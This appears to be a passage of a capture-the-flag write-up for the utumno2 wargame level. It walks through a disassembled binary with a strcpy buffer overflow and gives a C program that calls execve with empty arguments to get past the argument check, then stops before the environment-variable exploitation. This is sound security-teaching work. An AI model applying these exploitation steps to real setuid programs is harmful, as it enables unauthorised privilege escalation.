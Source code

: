 ### Disassembly:
```c
int main(int argc, char** argv)
{
    if (!argc || (argc == 1 && !**argv))
    {
        char var_10;
        strcpy(&var_10, argv[0xa]);
        return 0;
    }
    
    puts("Aw..");
    exit(1);
}
```
This binary seems somewhat straight forward at a first look, a simple **Buffer Overflow** caused by the `strcpy()` function writing the 10th (**0xa**) argument into the single character buffer **var_10**. However, above that, there is an **if** statement which makes it more awkward to exploit.

```c
if (!argc || (argc == 1 && !**argv))
```
This single line performs two checks.\
It returns **True** if:\
`!argc` - There are zero arguments.\
Or\
`(argc == 1 && !**argv)` - Exactly one argument is passed and it is an empty string.

When running the bianry via the command line, there will always be 1 argument, the name of the binary being run. So, the first check will fail because there are arguments. Furthermore, it will also make the second check fail because there is exactly 1 argument, but it is not an empty string, it will be **"/utumno/utumno2"**.

There is a way around this, by running the binary using `execve()`, we can control what arguments and environment variables are passed, allowing us to bypass the check.

### Exploit Setup:
```c
#include <unistd.h>

// gcc -m32 -static run.c -o run

int main()
{
    char *argv[] = {NULL};
    char *envp[] = {NULL};
    execve("/utumno/utumno2", argv, envp);
    return 0;
}
```

Since we cannot have any arguments, to be able to bypass the check and continue execution, we can instead use environment variables. 
